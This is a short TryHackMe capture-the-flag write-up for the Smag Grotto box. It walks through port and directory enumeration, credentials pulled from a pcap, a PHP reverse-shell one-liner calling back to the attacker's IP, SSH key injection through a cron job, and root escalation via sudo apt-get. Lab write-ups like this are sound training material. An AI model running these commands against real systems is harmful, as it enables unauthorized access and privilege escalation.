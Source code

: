```yaml
---
layout: post
title: "SMAG-GROTTO | THM "
date: 2021-11-20 00:46:00 -0000
categories: CTF THM
---
```


<h3>Executive Summary</h3> 

The server has hardcoded details present within a public facing email chain. Those credentials can be abused to get access to an admin portal and from there a reverse shell can be initiated. Once on the box itself, the ssh key infastructure is vulnerable to injection. An attacker can inject his own ssh key pair and move laterally from there. Once on as a regular user, credentials can be extracted from easily accessible log files. User can also escalate to root through sudo abuse of the apt-get program. 


<h3>Technical Details</h3>
<h2>Enumeration</h2>

First, lets see what is running on the box: 

nmap 10.10.6.75
-Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-20 01:12 EST
-Nmap scan report for 10.10.6.75
-Host is up (0.085s latency).
-Not shown: 998 closed tcp ports (conn-refused)
-PORT   STATE SERVICE
-22/tcp open  ssh
-80/tcp open  http
-
-Nmap done: 1 IP address (1 host up) scanned in 1.44 seconds

Lets navigate to the webserver that is running. Not much is here so lets enumerate the webserver: 

gobuster dir -w /SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -u 10.10.6.75 -x txt,php -t64 
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.6.75
[+] Method:                  GET
[+] Threads:                 64
[+] Wordlist:                /home/toad/bin/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              txt,php
[+] Timeout:                 10s
===============================================================
2021/11/20 01:15:24 Starting gobuster in directory enumeration mode
===============================================================
/mail                 (Status: 301) [Size: 307] [--> http://10.10.6.75/mail/]
/index.php            (Status: 200) [Size: 402]

/mail is interesting. Upon investigation, there is a .pcap file discussed on this public facing webserver. There is a specific comment to use wget to download the file. If we download that file with wget and open with Wireshark, it is a short file with some TCP connections. Right clicking and selecting follow TCP stream will reveal some credentials being transmitted in clear text.

nice. There is one wrinkle, the POST request for this file is aimed at the hostname development.smag.thm. So, we need to tie that hostname to the IP address of the box. We can do that by editing our /etc/hosts file. 

10.10.6.75   development.smag.thm

Then we can navigate to the endpoint that was found in the PCAP file. Upon navigating there we find a login screen. 

<h2>Initial Foothold</h2>

When we login, there is a prompt that will let us send a command. Perfect for a reverse shell. A simple oneliner shell command from the Pentest Monkey will work. 

php -r '$sock=fsockopen("10.6.10.177",9999);exec("/bin/sh -i <&3 >&3 2>&3");'

<h2>Lateral Movement</h2>

id -> www and we can't read /home/jake/user.txt. After some basic linux enumeration, we find an interesting crontab. The public key is being regularly updated to the user's ssh directory. We can inject our own key pair after running ssh-keygen -o on our own box. Then wait. Then we can ssh with -i {path_to_key} jake@10.6.10.177

<h2>Priv Esc </h2>

Now we are in as Jake. Priv Esc isn't needed to read the root flag, you can just read the vim history. Run the classic sudo -l and we find a viable path to escalation through sudo apt-get. Follow the instructions on GTFO bins to acheive this. 



Sparse write up will be more detailed in future. 
